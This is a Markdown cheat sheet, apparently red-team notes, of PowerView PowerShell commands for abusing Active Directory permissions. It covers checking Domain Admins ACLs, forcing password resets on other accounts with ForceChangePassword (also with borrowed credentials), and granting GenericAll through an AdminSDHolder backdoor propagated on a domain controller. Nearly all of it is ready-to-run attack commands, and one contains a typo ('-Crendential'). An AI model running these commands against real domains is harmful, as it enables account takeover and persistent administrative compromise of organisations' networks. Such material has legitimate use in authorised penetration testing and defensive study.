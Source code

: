 ### <span style="color:#F1C232">Check Domain Admin perms</span>

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```

### <span style="color:#F1C232">Abusing ResetPassword/ForceChangePassword</span>

```powershell
Set-DomainUserPassword -Identity testda -AccountPassword (ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
```

### <span style="color:#F1C232">Abusing ForceChangePassword with a different user's creds</span>

```powershell
Import-Module .\PowerView_dev.ps1
#Setting password for runas user for
$SecPassword = ConvertTo-SecureString 'password' -AsPlainText -Force
#Setting password for runas user for
$Cred = New-Object System.Management.Automation.PSCredential('Domain-Name-Here\User-here', $SecPassword)
#Set new password fot the user where you can abuse ForceChangePassword
$UserPassword = ConvertTo-SecureString 'Password1!' -AsPlainText -Force
#Update the password for that user
Set-DomainUserPassword -Identity User-Whose-Password-You-Want-To-Change-here -AccountPassword $UserPassword -Crendential $Cred
```

## <span style="color:lightgreen">Get Generic-All Access </span>

### <span style="color:#F1C232">Import the ADModule and set the SDPropagator PS script in the same path folder</span>

```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName user1 -Rights All -Verbose
$sess = New-PSSession -Computername star-dc.root.local
Invoke-Command -FilePath ".\Invoke-SDPropagator.ps1" -Session $sess
Enter-PSSession -Session $sess
[star-dc.root.local]:PS> Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

### <span style="color:#F1C232">Now if we check the permissions of the user he should have generic-all access available</span>

```powershell
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'user1'}
```
